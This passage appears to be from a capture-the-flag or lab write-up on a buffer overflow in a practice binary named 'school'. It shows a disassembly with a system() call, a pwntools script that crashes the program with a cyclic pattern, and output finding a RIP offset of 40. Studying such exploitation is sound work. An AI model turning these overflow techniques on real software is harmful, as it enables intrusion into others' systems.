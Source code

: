 ```
   0x0000000000400753 <+8>:     mov    QWORD PTR [rbp-0x8],rdi
   0x0000000000400757 <+12>:    mov    rax,QWORD PTR [rbp-0x8]
   0x000000000040075b <+16>:    mov    rdi,rax
   0x000000000040075e <+19>:    mov    eax,0x0
   0x0000000000400763 <+24>:    call   0x4005d0 <system@plt>
   0x0000000000400768 <+29>:    nop
   0x0000000000400769 <+30>:    leave
   0x000000000040076a <+31>:    ret
End of assembler dump.
```
However, I don't see system as something imported here

Well, that's all good food for thought...now onto seeing what happens if we put in too much input:
## Segfault
###### Rip Offset Code:
```python
def ripOffset():
	p = process('./school')
	d = p.recvuntil("directions:")
	p.sendline(cyclic(100))
	p.wait()
	cf = p.corefile
	stack = cf.rsp
	info("rsp = %#x", stack)
	pattern = cf.read(stack, 4)
	ripOffset = cyclic_find(pattern)
	info("rip offset = %d", ripOffset)
```
Results:
```
┌──(kali㉿kali)-[~/Desktop/5-Week]
└─$ python3 School_Pwn1.py
[+] Starting local process './school': pid 1284615
/home/kali/Desktop/5-Week/School_Pwn1.py:28: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  d = p.recvuntil("directions:")
[*] Process './school' stopped with exit code -11 (SIGSEGV) (pid 1284615)
[+] Parsing corefile...: Done
[*] '/home/kali/Desktop/5-Week/core.1284615'
    Arch:      amd64-64-little
    RIP:       0x400681
    RSP:       0x7ffe9fe27878
    Exe:       '/home/kali/Desktop/5-Week/school' (0x400000)
    Fault:     0x6161616c6161616b
[*] rsp = 0x7ffe9fe27878
[*] rip offset = 40
```

So we can see that at `0x400681`, the program tries to access memory from `0x6161616c6161616b`, which is 40 chars into the user input
###### Registers
```
$rax   : 0x0               
$rbx   : 0x00007fffffffdf08  →  0x00007fffffffe27a  →  "/home/kali/Desktop/5-Week/school"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x00007fffffffddf8  →  "kaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawa[...]"
$rbp   : 0x6161616a61616169 ("iaaajaaa"?)
$rsi   : 0x00007fffffffdc20  →  "Hi, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaala[...]"
$rdi   : 0x00007fffffffdbf0  →  0x00007fffffffdc20  →  "Hi, aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaala[...]"
$rip   : 0x0000000000400681  →  <main+80> ret 
$r8    : 0x73              
```